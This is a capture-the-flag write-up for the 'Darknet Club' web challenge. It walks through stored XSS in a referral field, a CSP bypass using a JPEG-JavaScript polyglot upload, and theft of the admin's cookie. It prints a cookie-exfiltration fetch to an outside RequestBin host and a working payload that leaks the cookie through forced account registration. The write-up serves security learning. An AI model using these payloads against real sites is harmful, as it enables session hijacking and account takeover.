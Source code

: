 # Darknet Club
* Category: web
* 200 Points
* Solved by the JCTF Team

## Description

> There is a new invite system for the most exclusive darknet websites.
> 
> Can you help me get an in?

## Solution

We enter the attached website and are presented with a register/login page:

![](images/darknet1.png)

We need to enter our username, email, referral and password. After registering, we arrive to the following screen:

![](images/darknet2.png)

On the right side, we can see a "request invitation" button which triggers the following code:

```javascript
async function report() {

	$("#submit-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-report");
	card.text("Your submission is awaiting approval by Admin!");
	card.attr("class", "alert alert-info");
	card.show();

	let data = {};

	await fetch('/api/report', {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify(data),
		});

	$("#submit-btn").prop("disabled", false);
}
```

This gives us the ability to have the admin visit some page, which usually means that we need to inject some Javascript to the page they're visiting and have them unknowingly execute some malicious code.

Using the "edit" button, we can edit the different fields and look for XSS:

![](images/darknet3.png)

Therefore, we can insert `<script>console.log('XSS')</script>` into each of the fields and see if anything gets logged to the console. When inserting the snippet to the `referral` field, we get a log in the console, but not the one we were hoping for:

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-GENXFgllQ+w2L5qjIm/unWJsx1gGFLQVAhqyNNs8gL4='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

It turns out that the site has a CSP which prevents executing inline Javascript code:

```
content-security-policy: default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;
```

In order to execute Javascript, we'll need to include a script from the same origin as the site. Luckily, we have an upload API:

```javascript
async function upload() {

	$("#upload-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-msg");
	card.text('Please wait...');

	// validate
	if ($('input[type=file]')[0].files.length == 0) {
		card.text('Please select a file to upload!');
		$("#upload-btn").prop("disabled", false);
		return;
	}

	let avatarFile = $('input[type=file]')[0].files[0];
	let formData = new FormData();
	formData.append('avatarFile', avatarFile);

	await fetch('/api/upload', {
		method: 'POST',
		credentials: 'include',
		body: formData,
	})
		.then((response) => response.json()
			.then((resp) => {
				if (response.status == 200) {
					avatarFile.value = []; // reset file input
					$('#file-label').text("Select profile avatar..."); // update label
					card.text(resp.message);
					console.log(resp.message) // set response message
					document.location.reload(); //refresh
				}
				if (response.status == 500){
					card.text("This file could not be uploaded, only JPEG files are allowed! ");
				}
			}))
		.catch((error) => {
			card.text("This file could not be uploaded, only JPEG files are allowed! ");
		});

	$("#upload-btn").prop("disabled", false);
}
```

The only problem is that the server rejects any file that isn't a JPEG file. Sometimes the check is based only on the file extension, but in this case there seems to be some kind of content-based check. We need a file that will pass as a JPEG file but also one where we can embed some Javascript code, or in other words, a [polyglot file](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a):

> Polyglots, in a security context, are files that are a valid form of multiple different file types. 

You can find an example for a JPEG-Javascript polyglot [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs), but we found that the challenge uses a much simpler check for JPEG files: It just checks that the first four bytes are `FF D8 FF E0`. So, in order to create a valid polyglot for the sake of the challenge, we could just use it as a variable name:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ hexdump -C poly1.jpg
00000000  ff d8 ff e0 20 3d 20 31  3b 0a 0a 63 6f 6e 73 6f  |.... = 1;..conso|
00000010  6c 65 2e 6c 6f 67 28 22  78 73 73 22 29 3b        |le.log("xss");|
0000001e
```

Now, let's try to upload it and include it as a script via the vulnerable "referral" field:

```html
<script src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```

![](images/darknet4.png)

When we refresh the page, we get another unexpected error in the console:

```
Uncaught SyntaxError: Invalid or unexpected token
```

Luckily, the PortSwigger article above explains that this is related to default charset interpretation, and in order to work around the default UTF-8 interpretation we can specify the following charset:

```html
<script charset="ISO-8859-1" src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```

Once we enter this as the referrer, we can finally see "xss" getting printed to the console! This means that we have some form of XSS, and now we need to proceed to the next phase of leaking the admin's info.

We might want to leak the cookie using a RequestBin request, such as:

```javascript
fetch("https://enhqnnej2mgj5.x.pipedream.net?" + btoa(document.cookie));
```

However, that's blocked by the CSP as well:

```
Refused to connect to 'https://enhqnnej2mgj5.x.pipedream.net/' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'connect-src' was not explicitly set, so 'default-src' is used as a fallback.
```

So, in order to leak the admin's cookie, we'll utilize a different capability that doesn't violate the CSP: We'll cause the admin to register a new user with a known username and password, and leak the cookie via the referral field:

```javascript
״א = 1;

if (window.navigator.userAgent.search("HeadlessChrome") != -1)
{
   const headers = new Headers()
   headers.append("Content-Type", "application/json")

   body = {username: "leak", password: "cookie", email: "leak@mail.com", referral: btoa(document.cookie)}


   const options = {
       method: "POST",
       headers,
       mode: "cors",
       body: JSON.stringify(body),
   }

   fetch("https://darknet-club.chal.intentsummit.org/api/register", options)
}
```

Notice how we restrict the script to the remote browser so that it doesn't run first locally and register the user with our cookie. In this example we chose to restrict the script to a headless browser but there are many other options.

After reporting the account, we can finally login as our new user and get the flag:

![](images/darknet5.png)


```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ echo ZmxhZz1JTlRFTlR7YV9qcDM2XzFzX3cwcjdoX2FfN2gwdTU0bmRfdzByZDV9 | base64 -d
flag=INTENT{a_jp36_1s_w0r7h_a_7h0u54nd_w0rd5}
```